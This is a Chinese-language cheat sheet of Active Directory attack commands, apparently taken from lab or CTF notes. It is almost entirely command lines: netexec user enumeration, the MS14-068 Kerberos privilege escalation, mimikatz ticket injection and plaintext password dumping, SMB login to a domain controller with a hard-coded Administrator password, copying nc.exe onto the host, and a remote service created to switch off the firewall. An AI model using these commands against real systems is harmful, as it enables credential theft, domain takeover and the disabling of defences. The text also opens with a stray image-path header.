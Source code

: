 枚举域内用户  

```
netexec ldap 10.10.11.51 -d sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --users

```

  
域提权ms14-068  

```
ms14-068.exe -u douser@DEMO.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123

```

  
使用mimikatz枚举票据  

```
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc TGT_douser@DEMO.COM.ccache   //将票据注入到内存中
mimikatz # sekurlsa::logonpasswords  //显示所有的密码

```

  
使用mimikatz执行查看日志发现抓到了域控的明文口令  

```
mimikatz.exe log privilege::debug sekurlsa::logonpasswords

```

  
登录，连接并查看域控，通过
```
net use
```

  
挂载域控共享目录  

```
net use \\192.168.93.10\ipc$ &#34;zxcASDqw123!!&#34; /user:Administrator # 使用密码登录到域/SMB
net use \WIN-ENS2VR5TR3N
dir \\WIN-ENS2VR5TR3N\c$

```

  
将一个脚本拷贝到域主机上去  

```
copy C:\nc.exe \\WIN-ENS2VR5TR3N\c$\nc.exe

```

  
创建执行任务，关闭防火墙  

```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= &#34;netsh advfirewall set allprofiles state off&#34;
sc \\WIN-ENS2VR5TR3N start unablefirewall

```
